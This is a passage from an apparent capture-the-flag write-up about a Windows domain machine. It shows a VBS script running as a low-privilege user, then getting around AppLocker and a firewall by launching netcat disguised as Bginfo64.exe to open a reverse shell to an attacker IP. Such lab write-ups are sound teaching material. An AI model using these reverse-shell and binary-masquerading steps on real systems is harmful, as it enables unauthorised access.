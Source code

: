 #### Trigger Execution

To trigger execution, I’ll run `run.vbs`:

```

PS C:\get-badpasswords> cscript .\run.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

```

Now there’s a file in `C:\programdata`:

```

PS C:\programdata> ls 0xdf.txt

    Directory: C:\programdata

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/10/2022  10:34 PM           6178 0xdf.txt 

```

It shows the user is not a domain admin, but bpassrunner:

```

PS C:\programdata> cat 0xdf.txt

USER INFORMATION
----------------

User Name            SID                                            
==================== ===============================================
windcorp\bpassrunner S-1-5-21-3783586571-2109290616-3725730865-10102

...[snip]...

```

### Shell

It took me a bit to figure out how to turn this into a shell. I can’t just call `nc64.exe` from the web directory because it won’t pass AppLocker. I can’t use PowerShell because even though I can sign it and it will run, the firewall will block the connections outbound.

Then I realized I could try to overwrite `bginfo64.exe` with `nc64.exe` and run it from there. While trying to do that, it failed because the file was still in use - my current shell! That means it’s actually still `nc64.exe`.

I’ll update the top of my local copy of the script to:

```

C:\share\Bginfo64.exe -e cmd 10.10.14.6 9004

```
